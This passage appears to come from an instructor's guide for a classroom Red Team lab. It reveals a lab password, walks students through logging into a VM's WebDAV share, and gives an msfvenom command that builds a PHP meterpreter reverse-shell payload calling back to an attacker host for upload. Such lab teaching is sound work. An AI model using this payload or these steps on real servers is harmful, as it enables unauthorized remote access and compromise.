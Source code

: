   - The password is revealed as: `linux4u`

### Step 5: Connect to the server via WebDAV.

This may be the most difficult part of the Red Team exercise, as it will require students to do external research on how to connect to the VM's WebDAV directory.

In addition, the instructions show an outdated IP address that the students will need to change to the IP address they discovered.

- In order to do so, students will already need to have the user name and following instructions from the `secret_folder`. Direct students to:
  - Open the `File System` shortcut from the desktop.
  - Click `Browse Network`.
  - In the URL bar, type: `dav://192.168.1.105/webdav`, and enter the credentials to log in.

    ![10_connect_to_webdav.png](Images/10_connect_to_webdav.png)

### Step 6: Upload a PHP reverse shell payload.

- To set up the reverse shell, run:

  - `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >> shell.php`

   ![11_msfvenom.png](Images/11_msfvenom.png)
